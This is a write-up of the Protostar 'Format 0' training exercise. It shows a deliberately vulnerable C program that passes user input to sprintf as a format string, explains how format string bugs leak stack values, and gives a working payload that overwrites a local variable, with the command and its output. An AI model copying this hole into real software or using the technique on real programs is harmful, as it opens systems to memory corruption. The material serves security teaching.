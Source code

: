 # Protostar - Format 0

### About ###

>This level introduces format strings, and how attacker supplied format strings can modify the execution flow of programs.
>
>**Hints**
>
> - This level should be done in less than 10 bytes of input.
> - “Exploiting format string vulnerabilities”
>
>This level is at /opt/protostar/bin/format0


### Source code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void vuln(char *string)
{
  volatile int target;
  char buffer[64];

  target = 0;

  sprintf(buffer, string);
  
  if(target == 0xdeadbeef) {
      printf("you have hit the target correctly :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}
```

### Solution 

Functions of the `printf` family (`sfprintf`, `vsnprintf`, etc.) are variadic functions using a format string to display the values given as parmaters in a specific format.

For example, the following call to `printf` will output a `char *`, an `int` and a `char`.

```c
printf("%s %d %c", string, integer, character);
```

The parameters of the variadic function are put on the stack. `printf` uses the format string `%s %d %c` to know how many values to pop from the stack and how to interpret it. 

Format string bugs appear when the programmer leaves to the user the choice of the format string:

```c
printf(user_input);
```

In that case, a user can specify a format string such as `%x.%x.%x.%x.%x` and get the first five values of the stack, leading to an information leak that could be used to bypass software securities such as ASLR or Stack Smashing Protectors.

This first exercise uses a format string bug to exploit a buffer overflow with an input smaller than 10 bytes. We control the format string `string`and the goal is to overwrite the value of `target`.

This can be done with the format string `%64c`, which outputs 64 whitespaces, followed by `\xef\xbe\xad\xde`.

```
user@protostar:/tmp$ format0 $(python -c "print '%64c\xef\xbe\xad\xde'")
you have hit the target correctly :)
```